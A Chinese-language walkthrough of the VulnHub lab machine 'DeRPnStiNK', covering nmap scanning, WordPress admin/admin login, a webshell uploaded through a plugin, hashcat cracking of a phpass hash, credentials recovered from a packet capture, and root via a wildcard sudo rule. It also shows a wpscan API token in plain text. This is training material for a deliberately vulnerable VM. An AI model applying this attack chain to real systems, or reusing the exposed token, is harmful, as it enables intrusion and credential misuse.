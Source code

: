 
![](images/2024-03-21-15-53-53.png)
靶机介绍
https://www.vulnhub.com/entry/derpnstink-1,221/

## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.1.124
[sudo] fforu 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 15:45 CST
Nmap scan report for 192.168.1.124
Host is up (0.11s latency).
Not shown: 58262 filtered tcp ports (no-response), 7270 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:98:D4:77 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 27.58 seconds

┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ sudo nmap -sT -sCV -O -p21,22,80 192.168.1.124
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 15:46 CST
Nmap scan report for 192.168.1.124
Host is up (0.00090s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: DeRPnStiNK
| http-robots.txt: 2 disallowed entries
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 08:00:27:98:D4:77 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

## web渗透

![](images/2024-03-21-15-55-59.png)
检查源代码得到一个flag
![](images/2024-03-21-18-44-29.png)
经过一系列信息搜集
得到一个wordpress的登录页面
可恶admin/admin直接进了
还卡了很久去搞了pypmyadmin站:(
![](images/2024-03-21-19-26-13.png)
进去了权限很低，看不到主题更看不到插件
wpscan给api再扫一遍
wpscan --url http://derpnstink.local/weblog/ --api-token  tYtl343tIjp9AjUaIHnLdZHA3QaRestXTHc7aBI59Jw
![](images/2024-03-21-19-40-26.png)
有一个文件上传，看一下介绍吧

![](images/2024-03-21-20-04-15.png)
这里可以看到有文件上传点
## getshell

本来想着直接上传反弹shell的马，结果弹了半天没弹回来
直接一句话木马蚁剑连了
![](images/2024-03-21-20-27-14.png)
连了shell看wordpress的配置文件
![](images/2024-03-21-21-00-48.png)
![](images/2024-03-21-20-57-26.png)
找到两个flag
然后就提权把

## 内网信息收集

![](images/2024-03-21-21-10-27.png)
sql数据库信息收集
```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ hashcat -m 400 -a 0 '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' /usr/share/wordlists/rockyou.txt
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41
Time.Started.....: Thu Mar 21 21:03:24 2024 (5 mins, 10 secs)
Time.Estimated...: Thu Mar 21 21:08:34 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     9060 H/s (9.43ms) @ Accel:512 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2801664/14344385 (19.53%)
Rejected.........: 0/2801664 (0.00%)
Restore.Point....: 2795520/14344385 (19.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:8064-8192
Candidate.Engine.: Device Generator
Candidates.#1....: weebanedth -> wcw32792

Started: Thu Mar 21 21:03:23 2024
Stopped: Thu Mar 21 21:08:36 2024
```
得到一个密码:wedgie57
su一下stinky用户
切换成功

![](images/2024-03-21-21-11-27.png)
在stinky用户家目录下找到一个私钥

![](images/2024-03-21-21-14-04.png)
暂且不知道是连谁的，都去试试吧

连stinky

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK/png]
└─$ ssh -i key stinky@192.168.1.124 -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      |
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

501 packages can be updated.
415 updates are security updates.

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Mar 21 09:17:47 2024 from localhost
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
stinky@DeRPnStiNK:~$
```

记得前面有个ftp端口
现在得到了这些信息
通过stinky/wedgie57

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK/png]
└─$ cat derpissues.txt
12:06 mrderp: hey i cant login to wordpress anymore. Can you look into it?
12:07 stinky: yeah. did you need a password reset?
12:07 mrderp: I think i accidently deleted my account
12:07 mrderp: i just need to logon once to make a change
12:07 stinky: im gonna packet capture so we can figure out whats going on
12:07 mrderp: that seems a bit overkill, but wtv
12:08 stinky: commence the sniffer!!!!
12:08 mrderp: -_-
12:10 stinky: fine derp, i think i fixed it for you though. cany you try to login?
12:11 mrderp: awesome it works!
12:12 stinky: we really are the best sysadmins #team
12:13 mrderp: i guess we are...
12:15 mrderp: alright I made the changes, feel free to decomission my account
12:20 stinky: done! yay
```
![](images/2024-03-21-21-41-45.png)

那么就找下流量包把，可能包含密码
![](images/2024-03-21-21-53-45.png)
找到了mrderp用户及密码
merderp/derpderpderpderpderpderpderp
```bash
stinky@DeRPnStiNK:~/Documents$ su mrderp
Password:
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
mrderp@DeRPnStiNK:/home/stinky/Documents$
```

## 提权

切换到mrderp后sudo -l
```bash
mrderp@DeRPnStiNK:~$ sudo -l
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpy*
sudo: /home/mrderp/binaries/derpy*: command not found
mrderp@DeRPnStiNK:~$ chmod +x ^C
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ ls -la
total 8
drwxrwxr-x  2 mrderp mrderp 4096 Mar 21 09:57 .
drwx------ 11 mrderp mrderp 4096 Mar 21 09:58 ..
mrderp@DeRPnStiNK:~/binaries$ touch derpy.sh
mrderp@DeRPnStiNK:~/binaries$ ls
derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '#!/bin/bash' >>derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' >> derpy.sh
mrderp@DeRPnStiNK:~/binaries$ cat derpy.sh
#!/bin/bash
/bin/bash
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo /home/mrderp/binaries/derpy*
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
root@DeRPnStiNK:~/binaries# whoami
root
root@DeRPnStiNK:~/binaries# find / -name 'flag*' -type f -not -path '/sys/*' -not -path '/usr/*' 2>/dev/null
/home/stinky/Desktop/flag.txt
/root/Desktop/flag.txt
root@DeRPnStiNK:~/binaries# cat /root/Desktop/flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo

```
发现了一个可以执行脚本的sudo权限
新建一个写入bash就可以了